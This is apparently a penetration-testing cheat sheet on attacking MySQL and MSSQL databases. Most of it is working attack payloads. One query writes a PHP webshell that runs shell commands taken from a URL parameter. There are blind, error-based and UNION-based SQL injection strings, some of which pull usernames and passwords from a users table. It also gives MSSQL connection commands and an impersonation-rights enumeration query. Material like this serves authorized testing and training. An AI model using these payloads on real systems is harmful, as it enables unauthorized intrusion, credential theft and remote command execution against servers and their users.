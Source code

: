 ##### RCE

write webshell
```
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'c:/wamp/www/webshell.php'
```

##### local privilege escalation
https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/?source=post_page-----6cc4d6eea356--------------------------------

#### MSSQL

##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

Blind SQL Injections

```
1' WAITFOR DELAY '0:0:5' --//
```

Identifying SQLi via Error-based Payloads

```
' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

UNION-based Payloads

```
' ORDER BY 1-- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

 yes/no questions

```
# time based attack - mssql
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--
```
##### general commands

```
# connect to mssql DB
mssqlclient.py <USER>:<PASS>@<IP> -windows-auth
mssqlclient.py domain/<USER>:<PASS>@<IP> -windows-auth
mssqlclient.py <USER>:<PASS>@<DOMAIN>

# check version
SELECT @@version;

# list databases
SELECT name FROM sys.databases;

# list tables
SELECT * FROM <db name>.information_schema.tables;

# check if we can impersonate to a user
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```